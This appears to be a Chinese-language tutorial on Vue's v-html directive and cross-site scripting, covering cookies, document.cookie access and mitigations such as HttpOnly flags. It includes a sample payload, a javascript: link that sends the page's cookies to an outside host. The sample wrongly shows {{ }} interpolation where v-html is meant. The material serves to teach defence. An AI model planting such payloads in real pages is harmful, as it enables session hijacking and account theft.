

#### v-html 与 XSS攻击

### cookie简介

cookie是浏览器与服务器为多个通信所产生的一系列可信消息，结构为字符串，内容格式为key-value形式

1. 当首次访问浏览器某系统时，通常需要登录，此时，登录完成请求带着用户信息给服务器，服务器检查登录信息，校验通过，返回数据。
2. 服务器返回数据时，不仅带着浏览器要用的信息，还携带了部分作为下次访问时需要的验证信息，即cookie
3. 当浏览器下一次访问服务器时，请求带着上次的cookie，服务器检查cookie，通过，返回数据。
4. 不同的浏览器之间的cookie是不共享的，相同的浏览器会对不同域名下的cookie归类存储

<div></div>

### cookie的安全性问题
当用户窃取了cookie信息，则可以模拟或者假冒当前用户进行操作


### 获取cookie办法
原生就有获取cookie的策略：`document.cookie`，可以获取到所有不带有`httpOnly`的cookie信息


### v-html作用
v-html 与 v-text不同，v-text会把后面所有的内容当作纯文本进行渲染，它没有解析HTML结构的功能。而v-html则能解析HTML结构，只要传入的字符串带有HTML结构，就能渲染出带有结构的页面样式。

v-html的内容按普通 HTML 插入，不会作为 Vue 模板进行编译。

```js
// 一个基础的v-html用法
<div v-html="'<h1>Hello World</h1>'"></div>

```

### 什么是XSS
XSS，又称跨站脚本攻击，是一种在web应用中的计算机安全漏洞,它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。

XSS攻击的危害包括：
- 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 非法转账
- 强制发送电子邮件
- 网站挂马
- 控制受害者机器向其它网站发起攻击等


### v-html可能引发的XSS攻击
以下是一个带有xss攻击的v-html案例

```js
<template>
    <div>
        {{ vHtml }}
    </div>
</template>

new Vue({
    data() {
        vHtml = '<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>点我会泄露cookie信息</a>'
    }
})

```
vHtml这个变量的内容是一个不可信的HTML结构，当其被渲染到页面后，会出现一个按钮，用户如果点击了该按钮，则会跳转到对应的页面上，并把当前登录的所有可见的cookie信息都带给攻击者，此后，攻击者就可以拿着cookie假冒用户干坏事了


### 如何避免攻击
在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 XSS 攻击。
1. 只在可信内容上使用 v-html，永不用在用户提交的内容上。或者输入框中的内容渲染上，如评论区
2. 服务端提供cookie的时候，对所有敏感信息添加HttpOnly标识，只允许本域名对其进行读取，不允许客户端获取这些信息
